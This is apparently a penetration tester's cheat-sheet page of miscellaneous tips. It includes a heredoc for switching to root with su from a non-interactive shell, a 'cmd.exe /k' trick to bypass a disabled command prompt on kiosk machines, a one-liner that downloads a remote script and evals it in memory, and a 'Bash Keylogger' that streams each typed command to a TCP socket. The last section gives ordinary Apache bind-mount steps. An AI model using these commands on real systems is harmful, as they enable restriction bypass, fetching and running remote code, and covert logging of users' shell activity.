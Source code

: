 # Random

### Cool heredoc&#x20;

* Use when you are on a `/bin/sh` and need to `su` but dont want to go into a full `tty`

```
su - root <<!
Passw0rd
id
ls /root
!
Password: uid=0(root) gid=0(root) groups=0(root)
Desktop  Documents  Downloads  go  Music  Pictures  Public  Templates  thinclient_drives  Videos
```

### Bypass a disabled command prompt with /k

```
# Win+R (To bring up Run Box)
cmd.exe /k "whoami"
```

**Description:** _'This command prompt has been disabled by your administrator...' Can usually be seen in environments such as kiosks PCs, a quick hacky work around is to use /k via the windows run box. This will carry out the command and then show the restriction message, allowing for command execution._

### _Luks On USBs_

* [https://geekyshacklebolt.wordpress.com/2019/03/06/how-to-encrypt-usb-drives-with-luks/](https://geekyshacklebolt.wordpress.com/2019/03/06/how-to-encrypt-usb-drives-with-luks/)

### Bash In memory exec one liner&#x20;

```
bash -c CMD="`wget -qO- http://<ip>/script.sh`" && eval "$CMD"
```

### Bash Keylogger&#x20;

```
PROMPT_COMMAND='history -a; tail -n1 ~/.bash_history > /dev/tcp/127.0.0.1/9000'
```

### Apache map external drive to webroot

* Create a directory on the external HDD, assuming it is mounted under the `/media` directory, like so:

```
sudo mkdir /media/web_files
```

* Change the ownership of this directory and all the files under it to be owned by the Apache user `www-data` like so:

```
sudo chown -R www-data:www-data /media/web_files/
```

* Create a directory under the web root directory ie `/var/www/html/` like so:

```
sudo mkdir /var/www/html/external_files
```

* Bind the `/media/web_files/` directory to the `/var/www/html/external_files/` directory like so:

```
sudo mount --bind /media/web_files/ /var/www/html/external_files/
```

* All files on the external HDD under the `/media/web_files/` directory will be available for Apache under the `/var/www/html/external_files/` directory and you can link to them in your web page that resides in `/var/www/html/` like so:

```
<a href="external_files/file1.mp4">file1</a>
```
